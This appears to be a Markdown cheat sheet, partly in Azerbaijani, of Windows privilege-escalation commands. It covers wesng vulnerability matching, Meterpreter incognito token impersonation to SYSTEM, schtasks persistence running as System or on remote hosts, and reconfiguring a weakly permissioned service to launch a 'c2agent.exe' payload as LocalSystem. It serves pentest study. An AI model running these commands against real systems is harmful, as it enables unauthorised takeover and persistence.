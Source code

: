 # Windows System Analysis

İlk öncə sistem haqda məlumat almaq lazımdı cmd-də `systeminfo` yazaraq çıxan məlumatları bir fayla yazıb saxlamaq lazımdı. Daha sonra bu faylı `wesng` tooluna veririk
sistemdə mümkün olan bütün açıqlıqları detallıca gətirir və bizə təkcə bunu analiz etmək hansının işə yarayıb hansının yaramadığını yoxlamaq lazımdır.

#### Privilege Escalation

İlk öncə `getuid`[meterpreter] ilə sistemə girdiyimiz userin imtiyazlarını görə bilərik. Ən yüksək imtiyaz `NT_AUTHORİTY\SYSTEM`-dir.  
`getprivs`[meterpreter] ( `whoami /priv`[cmd] ) ilə userin sistemdə edə biləcəyi işləri görə bilərik.

`load incognito`[meterpreter] əlavələri hədəfə yükləyəcək və `load`[meterpreter] yazdıqda işlədə biləcək əlavələrin listi çıxacaq.
`list_tokens -u`[meterpreter] ilə daha yüksək imtiyazlı istifadəçiləri token ilə təqlid edə bilib bilməyəcəyini göstərir.
Əgər belə bir imtiyaz olarsa onda `impersonate_token "NT_AUTHORİTY\SYSTEM"` yazaraq o imtiyaza sahib olacaq.

PS: Dependency Walker showing full DLL paths.

## cmd commands

You can get a list of scheduled tasks with the following command:  
`schtasks /query /fo LIST /v`

To schedule a task that runs every time the system starts:  
`schtasks /create /tn <TaskName> /tr <TaskRun> /sc onstart` 

To schedule a task that runs when users log on:  
`schtasks /create /tn <TaskName> /tr <TaskRun> /sc onlogon` 

To schedule a task that runs when the system is idle:  
`schtasks /create /tn <TaskName> /tr <TaskRun> /sc onidle /i {1 - 999}`

To schedule a task that runs once:  
`schtasks /create /tn <TaskName> /tr <TaskRun> /sc once /st <HH:MM>`

To schedule a task that runs with system permissions:  
`schtasks /create /tn <TaskName> /tr <TaskRun> /sc onlogon /ru System`

To schedule a task that runs on a remote computer:  
`schtasks /create /tn <TaskName> /tr <TaskRun> /sc onlogon /s <PC_Name>`

List the services running on the host:  
`net start` 

To get the parameters for an individual server:
`sc qc VulnService`

Services can be queried individually or in a batch to determine their access control rules:
`accesschk.exe -ucqv VulnService`

Any logged-in user can modify parameters for the VulnService service. To achieve this:  
`sc config VulnPath binpath="C:\temp\c2agent.exe"`  
`sc config VulnPath obj= ".\LocalSystem" password= ""`  

To find all processes currently running as SYSTEM, use the following command:  
`tasklist.exe /FI "username eq system" /v`


